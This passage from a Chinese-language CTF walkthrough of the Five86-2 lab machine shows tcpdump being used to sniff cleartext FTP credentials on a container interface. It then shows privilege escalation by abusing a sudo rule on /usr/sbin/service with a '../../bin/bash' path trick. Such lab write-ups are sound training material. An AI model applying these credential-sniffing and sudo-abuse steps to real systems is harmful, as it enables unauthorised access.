 在网络接口**veth3276e15**上进行抓包，并将结果保存在*result.pcap*中

```
stephen@five86-2:~$ timeout 120 tcpdump -w result.pcap -i veth3276e15
timeout 120 tcpdump -w result.pcap -i veth3276e15
tcpdump: listening on veth3276e15, link-type EN10MB (Ethernet), capture size 262144 bytes
43 packets captured
43 packets received by filter
0 packets dropped by kernel
```

使用*tcpdump*工具查看数据包

```shell
stephen@five86-2:~$ tcpdump -r result.pcap | more
tcpdump -r result.pcap | more
reading from file result.pcap, link-type EN10MB (Ethernet)
08:40:04.603751 IP 172.18.0.10.ftp-data > five86-2.33331: Flags [S], seq 1149527455, win 64240, options [mss 1460,sackOK,TS val 1124364455 ecr 0,nop,wscale 7], length 0
08:40:06.683349 ARP, Request who-has 172.18.0.10 tell five86-2, length 28
...
08:42:01.323775 IP five86-2.41354 > 172.18.0.10.ftp: Flags [P.], seq 1:12, ack 5--More--
8, win 502, options [nop,nop,TS val 2633646929 ecr 1124481170], length 11: FTP: --More--
USER paul
...
08:42:01.333483 IP five86-2.41354 > 172.18.0.10.ftp: Flags [P.], seq 12:33, ack --More--
90, win 502, options [nop,nop,TS val 2633646939 ecr 1124481185], length 21: FTP:--More--
 PASS esomepasswford
```

从结果中可知，在该网络接口传输中使用的协议是*ftp*，并在其中找到账户名和密码：`paul:esomepasswford`。

```shell
stephen@five86-2:~$ su paul
su paul
Password: esomepasswford

paul@five86-2:/home/stephen$ id
id
uid=1006(paul) gid=1006(paul) groups=1006(paul),1010(ncgroup)
paul@five86-2:/home/stephen$ sudo -l
sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```

切换到该账户下后注意到该账户可以使用*/usr/sbin/service*，再一次进行提权

```shell
paul@five86-2:/home/stephen$ sudo -u peter /usr/sbin/service ../../bin/bash
sudo -u peter /usr/sbin/service ../../bin/bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

peter@five86-2:/$ id
id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
peter@five86-2:/$ sudo -l
sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

```